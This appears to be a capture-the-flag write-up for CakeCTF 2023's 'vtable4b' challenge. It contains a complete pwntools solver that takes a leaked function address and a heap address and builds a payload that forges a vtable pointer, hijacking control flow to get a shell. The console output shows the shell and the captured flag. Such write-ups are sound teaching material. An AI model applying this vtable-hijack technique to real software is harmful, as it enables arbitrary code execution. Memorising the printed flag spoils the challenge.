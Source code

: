 # vtable4b

## Description

> Do you understand what vtable is?
>
> nc vtable4b.2023.cakectf.com 9000
>
> \* The flag exists somewhere in / directory.

no attachment

## Solution

```python
# solver.py
from pwn import *

io = remote("vtable4b.2023.cakectf.com", 9000)

io.recvuntil(b"<win> = ")
res = io.recvlineS()

win = int(res, base=16)

log.info(f"win: {hex(win)}")

io.sendlineafter(b"> ", b"3")

io.recvuntil(b"  [ address ]    [ heap data ]")

for _ in range(7):
    res = io.recvline()


message_addr = int(res[:14], 16)

log.info(f"message_addr: {hex(message_addr)}")

io.sendlineafter(b"> ", b"2")

payload = b""
payload += p64(win)
payload += b"A" * (32 - 8)
payload += p64(message_addr)

io.sendlineafter(b"Message: ", payload)
io.sendlineafter(b"> ", b"1")

io.interactive()
```

```console
$ python3 solver.py
[+] Opening connection to vtable4b.2023.cakectf.com on port 9000: Done
[*] win: 0x5617babea61a
[*] message_addr: 0x5617bac32eb0
[*] Switching to interactive mode
[+] You're trying to use vtable at 0x5617bac32eb0
[+] Congratulations! Executing shell...
$ $ ls /
app
bin
boot
dev
etc
flag-806cb9c9719379667ca5616d9c8210f1.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /flag-806cb9c9719379667ca5616d9c8210f1.txt
CakeCTF{vt4bl3_1s_ju5t_4n_arr4y_0f_funct1on_p0int3rs}
```
